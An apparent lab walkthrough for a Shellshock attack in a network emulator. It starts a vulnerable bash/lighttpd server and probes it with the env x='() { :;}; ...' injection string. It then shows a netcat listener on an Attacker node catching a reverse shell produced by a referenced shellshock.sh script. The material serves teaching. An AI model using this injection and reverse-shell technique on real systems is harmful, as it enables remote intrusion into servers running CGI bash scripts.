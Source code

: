 # Shellshock attack

## Starting the vulnerable server
Start the experiment specified in `service.imn` and issue the
[start_http.sh](start_http.sh) command to start the http server and deploy a
vulnerable version of bash on the host node:
```console
# ./start_https.sh
```
After executing the command check with the `ps` command whether the http server
is running on the host node.
```console
root@host:/ # ps ax
 PID TT  STAT    TIME COMMAND
  9733 ??  IsJ  0:00.00 rpcbind
  9735 ??  IsJ  0:00.00 inetd
  9895 ??  SJ   0:00.00 lighttpd -f /usr/local/etc/lighttpd/lighttpd.conf
  9897  2  SJ   0:00.01 csh
  9911  2  R+J  0:00.00 ps ax
```
You can also sheck whether the vulnerable bash version is deployed on the host:
```console
root@host:/ # bash
[root@host /]# env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
vulnerable
this is a test
```
The same procedure on the PC node should result in the following output:
```console
root@PC:/ # bash
[root@PC /]# env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
this is a test
```

## Executing the attack
First we start a `netcat` process on the Attacker that will listen for incoming
connections:
```console
root@Attacker:/ # nc -l 8080
```
After the process is started we execute the [shellshock.sh](shellshock.sh)
script that will exploit the shellshock vulnerability to give a simple reverse
TCP shell to the Attacker on TCP port 8080.

```console
# ./shellshock.sh
```

After the execution the `netcat` process will get the reverse shell:
```console
root@Attacker:/ # nc -l 8080
bash: no job control in this shell
[www@host /root/www.host]$ ls
ls
form.sh
freebsd.gif
index.html
[www@host /root/www.host]$ 
```
The attack exploits the simple [form.sh](www.host/form.sh) script, but the
attack would be the same for any bash script that is executed as CGI if the bash
executable is vulnerable (version < bash43-027).
